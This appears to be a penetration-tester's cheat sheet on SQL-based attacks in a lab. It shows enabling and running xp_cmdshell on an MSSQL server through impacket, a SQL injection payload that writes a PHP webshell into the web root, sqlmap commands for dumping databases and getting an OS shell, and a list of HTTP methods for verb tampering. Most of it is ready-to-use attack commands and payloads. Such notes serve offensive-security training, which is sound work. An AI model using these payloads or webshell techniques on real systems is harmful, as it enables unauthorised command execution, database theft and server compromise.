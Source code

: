 
Enable code execution in MSSQL (`xp_cmdshell`):

```bash
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
root
```

Write a shell into a file in the server:

```bash
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

We can get an error with the above payload but the error is related to the incorrect return type, and should not impact writing the webshell on disk.

| **SQLMap** | **Description** |
| ---- | ---- |
| `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user` | Specify parameter user and use 1 as dummy value |
| `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump` | Dump the entire database |
| `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --os-shell` | Gives us a fully interactive shell |
| `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"` | Writes a shell in specified server folder by using a request file (POST request via Burp and saved it as a local text file), and returns a fully interactive shell |

### HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command** | **Description** |
| ---- | ---- |
| `-X OPTIONS` | Set HTTP Method with Curl |

